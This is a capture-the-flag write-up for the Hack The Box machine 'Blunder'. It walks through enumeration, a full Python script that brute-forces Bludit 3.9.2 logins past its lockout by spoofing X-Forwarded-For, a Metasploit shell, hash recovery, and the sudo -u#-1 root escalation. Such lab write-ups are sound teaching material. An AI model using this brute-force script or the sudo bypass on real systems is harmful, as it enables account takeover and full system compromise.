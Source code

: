 ```yaml
---
title: "Blunder — Hack The Box [Write-up]"
author: 0x3ashry
description: "Writeup for Blunder Hackthebox Machine"
date: 2022-05-01 07:00:00 +0200
categories: [HackTheBox]
tags: [HTB, Linux]
---
```



## Introduction

![](/img/HTB/Blunder/Blunder.png)

#### Used Tools:
- nmap
- Gobuster
- Searchsploit
- Metasploit
- Cewl


## 1. SCANNING & ENUMERATION

I will start with nmap and the -A parameter to enable OS detection, version detection, script scanning, and traceroute and append the output to tee command which save the in a file named “nmap” and also show the output on the screen.

![](/img/HTB/Blunder/img (1).png)

Nmap is done with port 21 closed and port 80 open.

The site is a blog website containing 3 posts and nothing more.

Let's try directory bruteforcing.
I'll run gobsuter with -u for the url, -2 for the directory list, and -o for the output file.

```bash
gobuster dir -u http://10.10.10.191/ -w /usr/share/wordlists/dirb/common.txt -o directory.txt  2>/dev/null
```

![](/img/HTB/Blunder/img (2).png)

The directory bruteforce finished and I found "/admin", "/cgi-bin" and "/robots.txt".
/admin has an admin interface with login and password, I tried SQLInjection but reached nothing, and the cgi-bin was disabled so couldn't proceed with attacks like shellshock and the robots.txt have nothing.

After a lot of searching I tried to rerun the directory bruteforce but with different directory list:

```bash
gobuster dir -u http://10.10.10.191/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o directory2.txt  2>/dev/null
```

![](/img/HTB/Blunder/img (3).png)

I found extra: "/install.php", "/todo.txt", "/usb".


## 2. EXPLOITATION:

visiting /install.php discloses a potential **CMS** “Bludit”

![](/img/HTB/Blunder/img (4).png)

Checking /todo.txt the following notes are discovered:

![](/img/HTB/Blunder/img (5).png)

Noticed that the CMS version isn't updated yet, so we need to know its current version and there is a user called **fergus**.

Revisiting /admin is the login page, and when viewing the page source, it potentially discloses the **version of bludit as 3.9.2**

![](/img/HTB/Blunder/img (6).png)

I searched on searchsploit for bludit 3.9.2

![](/img/HTB/Blunder/img (7).png)

There is a metasploit module so let's take a look for it:

![](/img/HTB/Blunder/img (8).png)

It require a username and a password to work...


We remember that we have a username called **fergus** from so we need to get a password, let's try bruteforcing the password by creating a password list from the common words in the website using **cewl** with the -d for depth of the search, -m for min length of the password and -w for the output

```bash
cewl -d 3 -m 5 -w HTB/Blunder/cewl_wordlist.txt http://10.10.10.191/
```
After creating our password list we need to try it...
I found a python code online for Bludit Brute Force Mitigation Bypass: https://rastating.github.io/bludit-brute-force-mitigation-bypass/

After a lot of modification to make it run properly the code was as following:

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

file = r"/home/kali/HTB/Blunder/cewl_wordlist.txt"  # Put here the location of the password list

file=open(file,'r')
for line in file:
  for word in line.split():
    wordlist.append(word)


for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

After executing it tries different passwords till it find a valid one "RolandDeschain":

![](/img/HTB/Blunder/img (9).png)

let's pass it to our metasploit exploit and run it...

![](/img/HTB/Blunder/img (10).png)

We successfully gained a meterpreter shell
Gaining a more interactive shell:

```bash
shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

We are now "www-data" user, Traveling to /home we found 2 users: hugo, shaun
Visiting hugo we found user.txt, trying to read it but permission denied.

![](/img/HTB/Blunder/img (11).png)

After a lot of searcing in the system I found 2 directories called "bludit-3.10.0a" and "bludit-3.9.2" in the /var/www directory

Visiting its bludit-3.10.0a's content, I found a **user.php** file in the /var/www/bludit-3.10.0a/bl-content/databases

![](/img/HTB/Blunder/img (12).png)

After reading it I found Hugo's password hash, So let's try to decode it online on https://hashtoolkit.com/decrypt-hash/...

![](/img/HTB/Blunder/img (13).png)

It found a successfull match with a password: "Password120"

Let's change user and get the user flag...

![](/img/HTB/Blunder/img (14).png)


## 3. PRIVILEGE ESCALATION:

Let's list user's privileges or check a specific command:

![](/img/HTB/Blunder/img (15).png)

This have a public exploit exploiting "sudo 1.8.27 - Security Bypass"
Link: https://www.exploit-db.com/exploits/47502

So we could escalate our privileges using:

```bash
sudo -u#-1 /bin/bash
```

BOOOOOOOOOOOOOOOOOOOOM!!!!! Now we are root :D

![](/img/HTB/Blunder/img (16).png)


Thank you so much for reading and I hope you learned a lot as I did ❤

#### ***0x3ashry***